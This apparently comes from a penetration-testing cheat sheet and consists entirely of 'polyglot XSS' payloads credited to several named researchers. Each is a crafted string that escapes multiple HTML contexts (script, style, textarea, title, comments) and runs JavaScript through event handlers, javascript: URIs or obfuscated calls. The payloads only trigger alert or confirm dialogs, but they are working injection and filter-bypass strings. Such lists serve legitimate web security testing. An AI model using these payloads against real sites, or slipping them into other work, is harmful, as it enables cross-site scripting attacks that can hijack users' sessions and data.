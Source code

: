 ## Polyglot XSS

Polyglot XSS - 0xsobky

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Polyglot XSS - Ashar Javed

```javascript
 ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

Polyglot XSS - Mathias Karlsson

```javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

Polyglot XSS - Rsnake

```javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Polyglot XSS - Daniel Miessler

```javascript
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```

Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

```javascript
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```

![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)
